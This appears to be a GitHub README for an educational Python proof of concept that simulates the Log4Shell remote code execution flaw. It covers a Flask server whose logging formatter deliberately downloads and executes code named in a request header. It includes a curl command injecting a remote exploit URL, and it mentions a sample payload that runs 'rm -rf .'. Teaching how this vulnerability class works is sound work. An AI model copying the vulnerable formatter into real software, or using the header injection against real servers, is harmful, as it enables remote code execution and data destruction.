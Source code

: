 # py4jshell
Simulating Log4j Remote Code Execution (RCE) [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability in a flask web server using python's logging library with custom formatter that simulates lookup substitution on URLs. This repository is a POC of how Log4j remote code execution vulnerability actually works, but written in python. Instead of using `JNDI+LDAP`, `HTTP` protocol is used for exploit code lookup.

**Note 1: Do not use this in production, this is a demonstration of RCE.**

**Note 2: This not a vulnerability in Python's logging library. We are writing a custom formatter for the logging library that simulates the inherit behaviour of Log4J library.**

**Note 3: The exploit code exploit/exploit2.py executes rm -rf . in the server's present working directory, if you want to try this, make sure you are running it inside a container and not directly on the host, as it may result in data loss.**

### How this works?
1. A GET request is made to the flask web server (`/hello`) from a HTTP client.
2. Flask framework invokes the logger to log this request, including the header.
3. Since we have patched the python's logging library to use our own formatter, the `format()` method implemented by our formatter `ShellishFormatter` is invoked.
4. The formatter performs original formatting and invokes `check_substitute_pattern` function which scans the string to be logged for `${{.+?}}` pattern.
5. If found, the URL inside this pattern is extracted, parsed and a HTTP GET request is made to the remote code hosting server pointed by the URL to download the exploit python code.
6. A runnable python object is constructed from the downloaded code dynamically using `exec` and `eval` interpreter methods. This object contains the executable exploit code.
7. Since we need to substitute the `${{.+?}} with the stringified result, we call `str()` over the object which calls `__str__()` method of the exploit object.
8. Anything that is written inside the `__str__()` method is blindly executed unless it returns a string at the end.

### Try it yourself:
#### 1. Build the docker image:
First, built the docker image of the flask server using the provided Dockerfile.
```
docker build . -t py4jshell
```

#### 2. Host the exploit code locally:
The directory `exploit/` contains two sample python exploit codes. You can host these exploits anywhere on the internet, you can also do it locally by running a static HTTP server from that directory, as:
```
cd exploit
python -m http.server 8080
```
If everything is alright, you should see this message:
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### 3. Start the container:
You can just open another terminal or anywhere in your local network, just start the server as follows:
```
docker run --rm -p 5000:5000 py4jshell
```
The container should start the web server, you should see the following message:
```
* Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.2:5000/ (Press CTRL+C to quit)
```

#### 4. Make get requests:
You can use curl or any other tool to make the GET request. Check `exploit1.sh` and `exploit2.sh` files.
You can also formulate your own request as follows:

```sh
HEADER_VAL="\${{http://192.168.0.104:8080/exploit1.py}}"

curl -X GET -H "Agent: ${HEADER_VAL}" \
    http://localhost:5000/hello
```
Note the header value for `Agent` field, it contains a URL from where the exploit code is downloaded.
If everything works fine, the server will download and execute the exploit code without complaining. You should see the output as below:
```
172.17.0.1 - - [17/Dec/2021 12:56:25] "GET /hello HTTP/1.1" 200 -
it worked!
Headers: Host: localhost:5000
User-Agent: curl/7.74.0
Accept: */*
Agent: Substituted text


172.17.0.1 - - [17/Dec/2021 12:56:44] "GET /hello HTTP/1.1" 200 -
```
As you an see there is `it worked!` message on the `stdout`, which is actually from the exploit code which runs `os.system("echo it worked!")`, check `exploit/exploit1.py`. Also, if you see the logs of the static http server which hosted the exploit code files, you should see:
```
172.17.0.2 - - [17/Dec/2021 18:26:44] "GET /exploit1.py HTTP/1.1" 200 -
```
Which indicates that there was a hit from the container to the static server to download the exploit code to perform remote code execution.

#### Passing parameters:
The sample formatter also supports passing custom parameters as arguments to the instantiated remote object, to pass parameters, you can encode them as GET URL parameters:
```
HEADER_VAL="\${{http://192.168.0.104:8080/exploit2.py?name=Prasanna}}"
```

Then in the exploit code you can receive them in the constructor:
```python3
class LogSubstitutor:
    def __init__(self, **kwargs) -> None:
        # do creepy things here.
        os.system("echo from constructor")
        self.name = kwargs.get("name", "NoName")

    def __str__(self) -> str:
        # the loader will call str(object) during substitution
        # so this method must return a string and we can do other
        # creepy things here as well.
        # LoL! don't run this on the host machine.
        os.system("echo rm -rf .")
        return "Hi {}".format(self.name)
```

### Notes:
1. This project is for educational purposes, it can be used to understand Remote code execution and how Log4j shell actually works and what makes it so dangerous.
2. This has nothing to do with python's original logging library as it does not perform any string substitutions by downloading and executing code from remote URLs, this functionality is purely implemented inside the custom formatter which is actually vulnerable.
3. Log4j uses JNDI + LDAP which is the way of performing lookups on remote Java objects. This method has been in practice since 1990 and has been used by lot of applications to solve some usecases. The actual LDAP + JNDI might not work exactly as how we have written the functionality in this repo, this is just a simulation.
4. Every interpreted language can be tricked into attacks like this if they expose some or the other way of dynamic code execution using `eval`, which is most common in many interpreted languages. It is left to the developers to write better code and make the world safer.